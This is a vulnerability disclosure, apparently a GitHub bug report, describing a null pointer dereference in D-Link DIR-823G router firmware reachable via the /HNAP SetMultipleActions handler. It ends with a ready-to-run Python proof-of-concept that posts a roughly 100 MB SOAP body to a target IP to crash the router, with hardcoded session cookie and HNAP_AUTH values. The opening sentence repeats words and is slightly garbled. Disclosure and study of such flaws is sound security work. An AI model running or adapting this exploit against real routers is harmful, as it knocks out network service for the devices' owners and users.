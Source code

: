 # Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to cause denial of service through malformed HTTP requests. The vulnerability occurs in function sub_4339E8 when processing the SetMultipleActions handler.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Null pointer dereference

## Description:
The vulnerable code path processes HTTP requests to the `/HNAP` endpoint. When it contains the action `SetMultipleActions`, the code has a malloc (`malloc(v19)`) with the size is controlled by user request. This memory allocation could be failed when the user request is quite large and return a null pointer to `v21` while `v19` is a valid int value. `v21` is passed into `memcpy` without null validation, leading to a null pointer dereference.

![alt text](image.png)
## poc
```python
#!/usr/bin/env python3

import requests
import sys

def exploit(target):
    url = f"http://{target}/HNAP1/"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'text/xml; charset=utf-8',
        'SOAPAction': '"http://purenetworks.com/HNAP1/SetMultipleActions"',
        'HNAP_AUTH': '8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': f'http://{target}',
        'Connection': 'close',
        'Referer': f'http://{target}/SNTP.html',
        'Cookie': 'uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106'
    }
    
    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body>' + 'A' *   100000000 +  '</soap:Body></soap:Envelope>'
    
    response = requests.post(url, data=payload, headers=headers, timeout=30)
    print(f"Status: {response.status_code}")
    print(response.text)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <target_ip>")
        sys.exit(1)
    
    exploit(sys.argv[1])
```

